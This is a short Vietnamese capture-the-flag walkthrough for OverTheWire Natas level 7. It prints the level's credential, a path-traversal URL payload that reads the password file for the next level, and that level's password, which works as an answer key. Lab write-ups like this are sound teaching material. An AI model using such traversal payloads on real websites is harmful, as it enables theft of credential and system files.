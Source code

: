 # Natas Level 7

## 🔑 Mục tiêu
Tìm password cho level tiếp theo.

**URL: http://natas7.natas.labs.overthewire.org**     
**Credential: natas7:*bmg8SvU1LizuWjx3y7xkNERkHxGre0GS***

## 🛠️ Các bước thực hiện
1. Tổng quan trang web:    
![alt text](Image/Natas7-1.png)

2. Có thể thấy ở level này, trang web có 2 link tới 2 page ```home``` và ```about``` và khi check source ta thấy có 1 hint:    
```bash
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```

Và ta thấy được ```index.php``` đã xử lý 2 page này giống như 1 biến: ```http://natas7.natas.labs.overthewire.org/index.php?page=home```

![alt text](Image/Natas7-2.png)

==> Ta sẽ thử path traversal trang web với payload:    
```bash
http://natas7.natas.labs.overthewire.org/index.php?page=../../../../../etc/natas_webpass/natas8
```

![alt text](Image/Natas7-3.png)

## 📌 Key: ```xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q```